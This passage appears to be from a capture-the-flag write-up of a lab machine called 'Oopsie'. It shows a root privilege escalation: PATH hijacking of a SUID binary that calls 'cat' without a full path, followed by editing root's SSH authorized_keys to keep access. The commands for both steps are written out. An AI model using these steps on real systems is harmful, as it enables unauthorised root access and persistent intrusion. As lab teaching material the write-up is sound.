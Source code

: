 ```
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

{{< vs 1 >}}

When we run strings on the program, we see that it works by cat-ing the contents
of a file in root's directory, but doesn't use and explicit path for the `cat`
executable. This is a textbook set-up for PATH interception. This will drop us
a shell, executed as the `root` user, getting our system pwn.

```
robert@oopsie:~$ export PATH=/tmp:$PATH
robert@oopsie:~$ echo "/bin/bash" > /tmp/cat
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:~# cd /root/
root@oopsie:/root# vim -O .ssh/authorized_keys /home/robert/.ssh/authorized_keys
```

{{< vs 1 >}}

```
[ cvalenza@kali ] ~ $ ssh root@10.10.10.28
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 10 02:30:12 UTC 2020

  System load:  0.49               Processes:             184
  Usage of /:   26.6% of 19.56GB   Users logged in:       1
  Memory usage: 43%                IP address for ens160: 10.10.10.28
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

```